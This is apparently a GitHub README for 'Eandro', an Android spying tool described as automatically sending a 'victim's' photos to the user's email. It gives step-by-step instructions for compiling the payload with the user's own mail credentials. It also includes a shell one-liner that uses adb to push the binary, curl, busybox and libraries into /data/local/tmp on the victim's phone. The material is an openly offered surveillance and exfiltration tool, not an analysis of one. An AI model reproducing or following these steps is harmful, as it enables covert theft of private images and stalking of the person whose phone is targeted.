 # Eandro

Eandro is a Hacking Project to Automatical send Image of victim to Your Mail ID

Things You Need Above files
Copy Everything to your sdcard OR to your computer .

Make Sure adb Works either in Computer or Mobile Phone

1 . Install adb in Android or Computer
2 . Download Files that i Provided
3 . Download Eandro.c code to your Mobile or computer
4 . And here tough part comes install clang in Android or computer 
5 . To install clang in android install Termux in Android and type "apt install clang" without quotes.
6 . After install the c Compiler compile the code that i gave change the email and password and also from and to mail addresses
7 . To compile c code in android copy the /data/data/com.termux/files/home/ i.e Home Directory and type "gcc eandro.c -o eandro" [ Without Quotes ]
8 . Next you need to push all files and compiled binaryfile to /data/local/tmp/ of the Victims Mobile

To Push the Files you need to follow the steps

In Android : Below Command are steps to push the files to Victims Mobile if adb supports to your mobile i included adb binary file here download it

I suggest to download Termux and install certain packages 

apt install git 
apt install clang

after successfully installtion of these two proceed following steps:
============================================================
cd /data/data/com.termux/files/home/
git clone git@github.com:maddalakum/Eandro.git
cd /data/data/com.termux/files/home/Eandro/lib64/ ; 
adb shell "if [ ! -d /data/local/tmp/lib64 ] ; then mkdir /data/local/tmp/lib64 ; chmod 777 /data/local/tmp/lib64;fi " ; 
for i in `ls`; do  adb push $i /data/local/tmp/lib64/ ; done ; 
adb push ../curl /data/local/tmp/ ; 
adb push ../busybox /data/local/tmp/
===========================================================
In Computer download the Zip file place the file in desktop and unzip and push the files normall as i said to android

Watch My Video to how to do it 

https://www.youtube.com/channel/UCYgXhhbtAuFHOKsNDujcxzQ
